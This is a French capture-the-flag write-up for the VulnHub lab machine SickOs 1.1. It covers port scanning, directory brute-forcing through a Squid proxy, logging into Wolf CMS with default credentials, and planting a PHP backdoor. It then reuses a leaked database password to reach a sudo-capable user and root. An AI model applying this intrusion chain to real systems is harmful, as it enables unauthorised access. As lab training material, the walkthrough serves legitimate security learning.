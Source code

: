 ```yaml
---
title: "Solution du CTF SickOs 1.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) est un CTF créé par [D4rk36](https://twitter.com/D4rk36) et téléchargeable sur VulnHub.

Comme vous le verrez par la suite il est simple mais requiert d'avoir les bonnes intuitions.

```
Nmap scan report for 192.168.57.5
Host is up (0.00065s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 08:00:27:89:4A:39 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a un port 3128 annoncé comme un proxy `Squid` et si on s'y rend avec notre navigateur il rale en effet parce qu'on ne lui a pas donné d'URL à récupérer.

On configure un Firefox pour qu'il utilise ce proxy et quand on demande http://127.0.0.1 on obtient :

```html
<h1>
BLEHHH!!!
</h1>
```

On enchaine avec un `gobuster` en spécifiant le proxy dans les options :

```bash
$ gobuster -u http://127.0.0.1/ -p http://192.168.57.5:3128/ -w /opt/fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://127.0.0.1/
[+] Threads      : 10
[+] Wordlist     : /opt/fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
[+] Status codes : 200,204,301,302,307,403
[+] Proxy        : http://192.168.57.5:3128/
[+] Timeout      : 10s
=====================================================
2023/02/10 15:48:40 Starting gobuster
=====================================================
/index (Status: 200)
/connect (Status: 200)
/robots (Status: 200)
/server-status (Status: 200)
=====================================================
2023/02/10 15:49:18 Finished
=====================================================
```

Dans le `robots.txt` qui ressort il est mention de `/wolfcms`.

Sur exploit-db une recherche sur `wolfcms` ne retourne rien de bien intéressant mais avec `wolf cms` en deux mots je trouve cette vulnérabilité d'upload arbitraire :

[Wolf CMS - Arbitrary File Upload / Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/38000)

On suit l'une des URLs indiquée dans l'exploit et on arrive sur la page de login du CMS :

http://127.0.0.1/wolfcms/?/admin/

Là les identifiants `admin` / `admin` sont acceptés et on peut intuitivement aller dans la gestion des fichiers, créer un `shell.php` et l'éditer pour y placer une backdoor.

On retrouve alors notre shell dans le dossier public :

http://127.0.0.1/wolfcms/public/shell.php?cmd=id

Le fichier de configuration du CMS qu'on peut lire une fois un terminal récupéré contient un mot de passe :

```php
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```

Ce mot de passe est accepté pour l'utilisateur `sickos` présent sur le système. Ce dernier permet de passer `root` sans difficultés :

```bash
www-data@SickOs:/var/www/wolfcms$ su sickos
Password:
sickos@SickOs:/var/www/wolfcms$ id
uid=1000(sickos) gid=1000(sickos) groups=1000(sickos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
sickos@SickOs:/var/www/wolfcms$ sudo -l
[sudo] password for sickos:
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:/var/www/wolfcms$ sudo su
root@SickOs:/var/www/wolfcms# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:/var/www/wolfcms# cd /root
root@SickOs:~# ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

Ce dessus, l'utilisateur fait partie du groupe `sudo`, on peut facilement passer root.

*Publié le 11 février 2023*
